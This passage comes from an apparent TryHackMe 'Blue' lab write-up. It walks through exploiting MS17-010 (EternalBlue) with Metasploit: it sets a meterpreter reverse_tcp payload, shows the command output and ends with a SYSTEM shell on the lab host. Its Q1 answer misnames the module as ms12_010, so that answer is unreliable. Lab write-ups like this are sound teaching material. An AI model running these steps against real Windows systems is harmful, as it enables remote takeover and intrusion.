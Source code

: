 **Q1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

- `search ms17-010`
![searching exploit](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/Blue/search_exploit.png)

- `use exploit/windows/smb/ms17_010_eternalblue`

    ```bash
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    ```
**Ans: `exploit/windows/smb/ms12_010_eternalblue`**


**Q2. Show options and set the one required value. What is the name of this value? (All caps for submission)**
- `show options`
![show options for the exploit](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/Blue/options.png)

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.231.72
RHOSTS => 10.10.231.72
```
**Ans: `RHOSTS`**

For payload, by default getting meterpreter shell. So we don't need to do any funrther steps, just set palyload to windows/x64/meterpreter/reverse_tcp.
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST tun0`
- `run`  # this will execute out payload and get us a meterpreter tcp reverse shell





## Task 3 : Escalate

This task requires you to escalate your normal shell to meterpreter. But in our case, by default we got meter preter shell, so we don't need to do anything for escalation.

But anyway, if you land on a normal reverse shell, [follow this writeup to escalate to meterpreter shell](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)

Now let's check who are we logged in as. Type `shell` in meterpreter to get a shell and then use `whoami` command.
```bash
meterpreter > shell
Process 1968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
